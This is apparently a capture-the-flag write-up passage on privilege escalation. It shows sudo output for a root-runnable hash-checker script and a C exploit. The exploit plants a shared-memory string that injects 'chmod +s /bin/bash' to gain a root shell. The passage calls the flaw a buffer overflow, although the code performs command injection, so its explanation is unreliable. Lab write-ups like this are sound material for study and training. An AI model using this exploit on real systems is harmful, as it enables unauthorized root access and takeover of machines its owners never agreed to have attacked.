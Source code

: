 ## Privilage Escalation:

```jsx
-bash-5.1$ sudo -l
Matching Defaults entries for reader on checker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User reader may run the following commands on checker:
    (ALL) NOPASSWD: /opt/hash-checker/check-leak.sh *
-bash-5.1$ cat /opt/hash-checker/check-leak.sh
#!/bin/bash
source `dirname $0`/.env
USER_NAME=$(/usr/bin/echo "$1" | /usr/bin/tr -dc '[:alnum:]')
/opt/hash-checker/check_leak "$USER_NAME"
```

The binaray is vulnarable to buffer overflow. Use the following exploit.

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <time.h>
#include <errno.h>
#include <string.h>

#define SHM_SIZE 0x400
#define SHM_MODE 0x3B6

int main(void) {
    srand((unsigned int)time(NULL));
    key_t key = rand() % 0xfffff;

    printf("Generated key: 0x%X\n", key);

    int shmid = shmget(key, SHM_SIZE, IPC_CREAT | SHM_MODE);
    if (shmid == -1) {
        perror("shmget");
        exit(EXIT_FAILURE);
    }

    char *shmaddr = (char *)shmat(shmid, NULL, 0);
    if (shmaddr == (char *)-1) {
        perror("shmat");
        exit(EXIT_FAILURE);
    }

    snprintf(shmaddr, SHM_SIZE, "Leaked hash by furious > '; chmod +s /bin/bash;#");

    printf("Shared Memory Content:\n%s\n", shmaddr);

    if (shmdt(shmaddr) == -1) {
        perror("shmdt");
        exit(EXIT_FAILURE);
    }

    return 0;
}
```
